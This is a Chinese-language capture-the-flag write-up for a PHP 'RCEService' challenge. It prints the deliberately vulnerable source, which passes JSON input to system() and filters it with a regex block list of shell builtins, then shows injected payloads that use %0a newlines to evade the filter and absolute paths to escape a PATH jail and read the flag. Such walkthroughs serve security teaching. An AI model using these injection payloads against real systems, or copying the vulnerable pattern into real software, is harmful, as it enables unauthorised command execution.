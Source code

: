 ![](<./img/Pasted image 20221224090401.png>)

---
首页长这样

![](<./img/Pasted image 20221224090929.png>)

要我们输入一个`json`字符串，通过`cmd`查询传递，因而推测键名也为`cmd`
```json
{"cmd": "ls"}
```

> Attempting to run command:  
index.php

尝试获取`index.php`的内容

```json
{"cmd": "cat index.php"}
```

> Hacking attempt detected

多次尝试无果，寻求`wp`帮助QAQ

然后发现原题离谱地提供了源码

![](<./img/Pasted image 20221224093015.png>)

```php
<?php

putenv('PATH=/home/rceservice/jail');

if (isset($_REQUEST['cmd'])) {
  $json = $_REQUEST['cmd'];

  if (!is_string($json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } elseif (preg_match('/^.*(alias|bg|bind|break|builtin|case|cd|command|compgen|complete|continue|declare|dirs|disown|echo|enable|eval|exec|exit|export|fc|fg|getopts|hash|help|history|if|jobs|kill|let|local|logout|popd|printf|pushd|pwd|read|readonly|return|set|shift|shopt|source|suspend|test|times|trap|type|typeset|ulimit|umask|unalias|unset|until|wait|while|[\x00-\x1FA-Z0-9!#-\/;-@\[-`|~\x7F]+).*$/', $json)) {
    echo 'Hacking attempt detected<br/><br/>';
  } else {
    echo 'Attempting to run command:<br/>';
    $cmd = json_decode($json, true)['cmd'];
    if ($cmd !== NULL) {
      system($cmd);
    } else {
      echo 'Invalid input';
    }
    echo '<br/><br/>';
  }
}
?>
```

通过`preg_match`实现`WAF`，直接通过`%0a`绕过单行匹配中的`.*`

```
{%0a"cmd": "cat index.php"%0a}
```

> Attempting to run command:

没有回显，非常奇怪nanoda

```php
putenv('PATH=/home/rceservice/jail');
```
![](<./img/Pasted image 20221224094442.png>)

emmm，这波是`PATH`被挟持了，问题不大，用绝对路径应该就行

尝试查看`/home/rceservice/jail`下面的东西
```
{%0a"cmd": "ls /home/rceservice/jail"%0a}
```

> Attempting to run command:
ls

好家伙，真就只给了`ls`
```
{%0a"cmd": "ls /home/rceservice"%0a}
```

> Attempting to run command:  
flag jail

```
{%0a"cmd": "/bin/cat /home/rceservice/flag"%0a}
```

> Attempting to run command:  
flag{f632fadd-2fad-439f-b5e1-75acf38cc1f3}

#Web #RCE #PHP #正则表达式 #json #环境变量 #挟持